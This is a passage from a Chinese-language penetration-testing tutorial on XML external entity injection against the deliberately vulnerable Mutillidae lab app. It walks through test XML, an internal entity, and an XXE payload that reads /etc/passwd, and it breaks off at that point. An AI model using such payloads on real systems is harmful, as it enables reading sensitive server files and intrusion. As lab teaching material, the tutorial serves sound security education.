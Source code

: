 ## 6.3 利用 XML 外部实体注入

XML 是主要用于描述文档或数据结构的格式，例如，HTML 是XML 的实现，它定义了页面和它们的关系的结构和格式。

XML 实体类似于定义在 XML 结构中的数据结构，它们中的一些能够从文件系统中读取文件或者甚至是执行命令。

这个秘籍中，我们会利用 XML 外部实体注入漏洞来在服务器中执行代码。

### 准备

建议你开始之前遵循上一个秘籍中的步骤。

### 操作步骤

1.  浏览`http://192.168.56.102/mutillidae/index.php?page=xmlvalidator.php`。

2.  上面写着它是个 XML 校验器。让我们尝试提交测试示例来观察发生什么。在 XML 输入框中，输入`<somexml><message>Hello World</message></ somexml>`，并点击`Validate XML`。

    ![](../img/8b5f3ee8f4c6ad338ca175321ac01d01.png)

3.  现在让我们观察它是否正确处理了实体，提交系列代码：

    ```
    <!DOCTYPE person [  
        <!ELEMENT person ANY>  
        <!ENTITY person "Mr Bob"> 
    ]> 
    <somexml><message>Hello World &person;</message></somexml>
    ```

    ![](../img/2995ba56525be01bca370d7fc6a52fb4.png)

    这里，我们仅仅定义了实体并将值`"Mr Bob"`赋给它。解析器在展示结果时解释了实体并替换了它的值。

4.  这就是内部实体的使用，让我们尝试外部实体：

    ```
    <!DOCTYPE fileEntity [  
        <!ELEMENT fileEntity ANY>  
        <!ENTITY fileEntity SYSTEM "file:///etc/passwd"> 
    ]> 
    <somexml><message>Hello World &fileEntity;</message></somexml>
    ```
